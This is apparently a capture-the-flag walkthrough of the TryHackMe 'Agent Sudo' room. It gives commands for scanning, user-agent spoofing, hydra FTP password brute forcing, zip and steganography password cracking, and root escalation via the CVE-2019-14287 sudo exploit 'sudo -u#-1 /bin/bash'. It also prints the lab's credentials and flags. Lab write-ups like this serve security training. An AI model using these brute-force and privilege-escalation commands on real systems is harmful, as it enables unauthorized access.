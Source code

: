# Agent Sudo

![Logo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/5f59219d-e80c-4ab9-a2b5-b67ded75b5e3)

## Enumeration

Let's enumerate the machine with nmap :

```bash
nmap -sT -sV 10.10.52.49
```

![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/e056fada-cec3-472c-92f8-e78987ef27cd)

we browse to web server on port `80` :

![firstPage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/810ff7da-99a0-4ae6-aa56-6c7adaeeb214)

we see that the page needs user-agent to access the site and `R` is agent that wrote this message.

we can infere that other agents codenames are like this, try accessing the website with curl command and user agent.

if we set user-agent to `A` or `B` nothing happens, but setting user-agent as `C` will show a different message :

```bash
curl http://10.10.52.49/ -H 'user-agent: C' -L
```

`-L` is for following redirects :

![userAgent](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/403f2967-e34f-46b2-b077-1c49946d7b38)

we can see this is a message to user `chris`, so we can brute force the ftp login with this user :

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.52.49 ftp -v
```

yes, hydra finds the password :

![hydra](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/55dcb21c-d77f-4cf5-8a5f-40184a691fc8)

login to ftp server with this credential : `chris:crystal` and use `dir` to show the content, download all the files there.

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/49494c20-cb95-4718-ba24-4b397c081e5c)

cat the content of `To_agentJ.txt` file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

so we find out that the login password is in the fake picture, let's examin the pictures :

we start by examining `cutie.png`

```bash
binwalk -e cutie.png --run-as=root
```

there is a zip file inside and it is password protected.

use `zip2john` to brute force the password :

```bash
zip2john cutie.png > hash.txt
```

and the use `john` :

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![zipPass](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fa83858b-c463-48c3-adff-0af0763b04bc)

use this password to open the zip file :

```bash
7za x 8702.zip
```

and open the `To_agentR.txt` :

```text
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

the string `QXJlYTUx` is a base64 encoded so we need to decode it :

```bash
echo -n 'QXJlYTUx' | base64 -d

Area51
```

Let's examin the `cute-alien.jpg` picture :

```bash
steghide info cute-alien.jpg
```

it needs a password, use `Area51` password which we found in the zip file of `cutie.png` :

```bash
steghide extract -sf cute-alien.jpg
```

there is a file call `message.txt` inside, open it :

```text
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

from this message we understand that the password of user `james` is `hackerrules!`

yes we can now ssh to machine with these credentials `james:hackerrules!`

now, cat the user.txt file here :

```bash
cat user_flag.txt

b03d975e8c92a7c04146cfa7a5a313c7
```

and download the `Alien_autospy.jpg` file to your machine using scp :

```bash
scp james@10.10.52.49:Alien_autospy.jpg /root
```

for the question `What is the incident of the photo called?` is used the hint and then used this google dork :

```text
Alien autospy site:foxnews.com
```

and the first link gives you the anwer `Roswell alien autopsy`.

## Privilege Escalation

use `sudo -l` to see if any sudo permissions is set for user james :

```bash
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

emmmm!!, now we can use /bin/bash as root but wait, this is suspicious, lets check the sudo version with `sudo -V` :

```bash
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

just search for the vulnerabilities of this version in exploit db or google search the `(ALL, !root) /bin/bash` exploits :

you will find the `CVE-2019-14287` for this sudo version and the exploit is :

```bash
sudo -u#-1 /bin/bash
```

![exploit](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/4ef94669-139d-42b8-8586-69dfe2f2ff4e)

cat the content of `/root/root.txt` :

```text
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

and with the above text we see that Agent R is Deskel.

